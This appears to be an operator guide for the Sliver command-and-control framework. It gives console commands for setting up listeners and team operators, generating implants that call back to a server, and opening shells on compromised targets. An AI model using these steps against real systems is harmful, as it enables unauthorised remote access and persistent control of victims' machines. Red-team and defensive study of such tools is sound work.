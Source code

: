 # 1. Administrating Sliver

1. Connect to the server on the host that is installed:
```bash
sliver
```
2. Enable Multiplayer mode, so that other users can connect to the sliver server
```bash
multiplayer
```
3. Create new operators (do this for each team member):
```bash
multiplayer
new-operator --name <operator_name> --lhost <sliver_server_ip>
```

This will generate:
- A config file for the operator that will need to be passed to other operators
- Certificates for authentication

# 2. Create a Listener

This is the listener that will catch the payload from our implant and give us the persistent access. We will create an `mtls` listener. You can also create an `http`, `https`, and `dns`.
```bash
mtls
```

# 3. Generating Implants

To create a implant, use the generate command:
```bash
generate -m <SLIVER_IP> --os <Target_OS>
```
    --mtls: Specifies mutual TLS encryption.
    --ip: The IP address of your Sliver server.
    --os: Target operating system (e.g., windows, linux, macos).
    --save: OPTIONAL - You can use the save option to save to an specific path in your vm (e.g, /home/ubuntu).
    
It will give usually save the payload on your `/home/ubuntu` under a random name. It might look like this "RANDOM_NAME"

# 4. Interact with the Target

Once the implant is delivered and executed on the target, you’ll see the session appear in the Sliver client interface. Interact with the target by selecting the session:
This command will display all sessions:
```bash
sessions
```
You can interact with an specific sessions with:
```
use <session_id>
```

# 5. Execute Commands

Use Sliver commands to execute tasks on the compromised system:

help    # View available commands
shell   # Open a shell on the target system

# 6. Operator Configuration

> [!NOTE]  
> You will need to obtain the configuration file from the sliver server admin

Operators need to:
1. Install the Sliver client on their machine:
    1. Download the latest sliver client binary for their linux host https://github.com/BishopFox/sliver/releases/download/v1.5.42/sliver-client_linux .
    2. Copy the binary into `/usr/local/bin` so that you can just type `sliver` from the cli and it will connect you. 
    ```bash
    cp <PATH_OF_DOWNLOADED_SLIVER_CLIENT_FILE> /usr/local/bin
    ```
3. Copy their configuration file to `~/.sliver/configs/`
    1. If the `~/.sliver/configs` folder doesn't exist. Create it.
5. Connect to the server using:
```bash
sliver
```
You should be able to connect to the sliver server now as your operator.

# 7. Common Commands

List all operators
```bash
operators
```
Remove an operator
```bash
remove-operator <operator_name>
```
List active sessions
```bash
sessions
```

Switch between sessions
```bash
use <session_id>
```

## Troubleshooting

1. If the service fails to start:
   - Check logs: `journalctl -u sliver.service`
   - Verify permissions on config directory
   - Ensure required ports are open

2. Connection issues:
   - Verify operator config is correctly placed
   - Check firewall rules
   - Ensure certificates are valid

## Additional Resources

- [Official Sliver Documentation](https://sliver.sh/docs)
- [GitHub Repository](https://github.com/BishopFox/sliver)
- [Security Considerations](https://sliver.sh/docs?name=Security)

